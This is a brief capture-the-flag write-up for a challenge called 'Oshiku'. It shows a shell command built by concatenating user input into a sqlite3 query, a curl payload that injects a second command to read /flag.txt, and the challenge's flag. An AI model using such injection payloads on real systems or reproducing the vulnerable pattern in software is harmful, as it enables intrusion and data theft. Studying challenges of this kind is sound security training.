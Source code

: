 # Oshiku

Author: [VascoZ]

## Description

Oshiku Satu JKT48

## Requirements

None

## Sources

-

## Tags

- Command Injection

## Exploit

Command Injection (into a prepared sql statement) query = 'sqlite3 database.db "SELECT biography FROM cyberheroines WHERE name=\'' + str(name) +'\'\"'

exploit : curl -X POST -d "oshi_name=freya\"%20;%20cat%20/flag.txt;echo%20\"" (url)



## Flag

```
WRECKIT50{oshikucumansatuk0k_satujkt}
```

## connection



## Severity
MEDIUM

